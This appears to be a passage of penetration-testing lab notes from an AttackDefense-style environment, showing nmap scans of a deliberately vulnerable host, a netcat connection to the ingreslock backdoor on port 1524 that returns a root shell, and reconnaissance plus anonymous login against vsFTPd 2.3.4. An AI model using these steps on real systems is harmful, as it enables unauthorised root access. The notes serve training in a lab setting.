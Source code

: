 ```bash
513/tcp  open  login?
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  ingreslock?
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
6667/tcp open  irc         UnrealIRCd
8180/tcp open  unknown     Apache-Coyote/1.1

```



```
root@attackdefense:~# nc 10.4.20.132 1524
root@d1d6a9361621:/# id
id
uid=0(root) gid=0(root) groups=0(root)

```





#### Targeting vsFTPd    

```bash
root@attackdefense:~# nmap 10.4.16.92 -sC -sV -p21
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-13 13:45 IST
Nmap scan report for demo.ine.local (10.4.16.92)
Host is up (0.0091s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 172.17.0.2 is not the same as 10.4.16.92
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.22.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
Service Info: OS: Unix
```



**ftp anonymous login**

```bash
root@attackdefense:~# ftp 10.4.16.92
Connected to 10.4.16.92.
220 (vsFTPd 2.3.4)
Name (10.4.16.92:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||59628|).
ftp: Can't connect to `10.4.16.92:59628': Connection refused
```